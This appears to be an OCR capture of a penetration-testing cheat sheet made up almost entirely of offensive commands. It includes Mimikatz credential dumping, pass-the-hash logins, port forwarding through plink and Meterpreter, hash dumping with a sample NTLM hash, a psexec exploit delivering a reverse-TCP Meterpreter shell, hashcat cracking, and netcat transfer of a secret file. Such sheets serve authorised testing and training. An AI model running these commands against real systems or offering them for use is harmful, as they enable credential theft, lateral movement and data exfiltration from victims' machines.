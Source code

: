 
	Mimikatz use
	git clone https://github.com/gentilkiwi/mimikatz.git
	privilege::debug
	sekurlsa::logonPasswords full

	Passing the Hash
	git clone https://github.com/byt3bl33d3r/pth-toolkit
	pth-winexe -U hash //IP cmd


	PuTTY Link tunnel
	Forward remote port to local address
	plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP


	Meterpreter portfwd
	# https://www.offensive-security.com/metasploit-unleashed/portfwd/
	# forward remote port to local address
	meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
	kali > rdesktop 127.0.0.1:3389


	Meterpreter VNC\RDP
	# https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
	run getgui -u admin -p 1234
	run vnc -p 5043

	or

	apt-get install freerdp-x11
	xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

	or

	meterpreter > run post/windows/gather/hashdump
	Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
	msf > use exploit/windows/smb/psexec
	msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
	msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
	msf exploit(psexec) > exploit
	meterpreter > shell


	Hashcat password cracking
	hashcat -m 400 -a 0 hash /root/rockyou.txt


	Netcat examples
	c:> nc -l -p 31337
	#nc 192.168.0.10 31337
	c:> nc -v -w 30 -p 31337 -l < secret.txt
	#nc -v -w 2 192.168.0.10 31337 > secret.txt
